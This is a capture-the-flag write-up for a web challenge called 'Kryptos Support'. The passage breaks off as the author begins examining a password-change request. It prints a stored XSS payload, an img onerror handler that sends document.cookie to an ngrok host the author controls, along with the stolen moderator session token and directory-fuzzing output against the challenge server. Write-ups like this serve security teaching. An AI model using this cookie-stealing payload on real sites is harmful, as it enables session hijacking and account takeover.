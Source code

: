 # Kryptos Support - Web

This challenge we have this interface :

![image](https://user-images.githubusercontent.com/76447395/169404096-60e7e316-b5aa-4c47-bcd5-61462362eae7.png)

It says "AN ADMIN WILL REVIEW YOUR TICKET SHORTLY"... This is probably vulnerable agains XSS (Cross Site Scripting), let's test this out, let's try to make a request to our 
server :

```html
<img src=x onerror=this.src=" https://---------.ngrok.io/?"+document.cookie>
```

Now let's check our server :

```
[404]: GET /?session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI5OTQ3MjB9._8UOKz7Q-h_B-76B17ncFPA3g9qTh4RMmy0H4qnZcW0 - 
No such file or directory
```

Nice! We have a `/login` : 

![image](https://user-images.githubusercontent.com/76447395/169405643-1f8584fe-21bf-4af6-9964-2eb730b26613.png)

Let's try to fuzz the site :

```
Target: http://138.68.188.223:31801/

[23:58:46] Starting:
[23:58:50] 302 -   23B  - /ADMIN  ->  /
[23:58:51] 302 -   23B  - /Admin  ->  /
[23:58:55] 302 -   23B  - /admin  ->  /
[23:58:55] 302 -   23B  - /admin/  ->  /
[23:58:55] 302 -   23B  - /admin/?/login  ->  /
[23:59:13] 200 -    2KB - /login/
[23:59:13] 302 -   23B  - /logout  ->  /
[23:59:13] 302 -   23B  - /logout/  ->  /
[23:59:14] 200 -    2KB - /login
[23:59:21] 500 -   35B  - /servlet/%C0%AE%C0%AE%C0%AF
[23:59:21] 302 -   23B  - /settings  ->  /
[23:59:21] 302 -   23B  - /settings/  ->  /
[23:59:23] 301 -  179B  - /static  ->  /static/

Task Completed
```

We can login in `/admin` :

![image](https://user-images.githubusercontent.com/76447395/169411855-62a587c6-84fe-4f22-a17e-aa373fcf158d.png)

In `Settings` we can change the password, but let's take a look at the request :
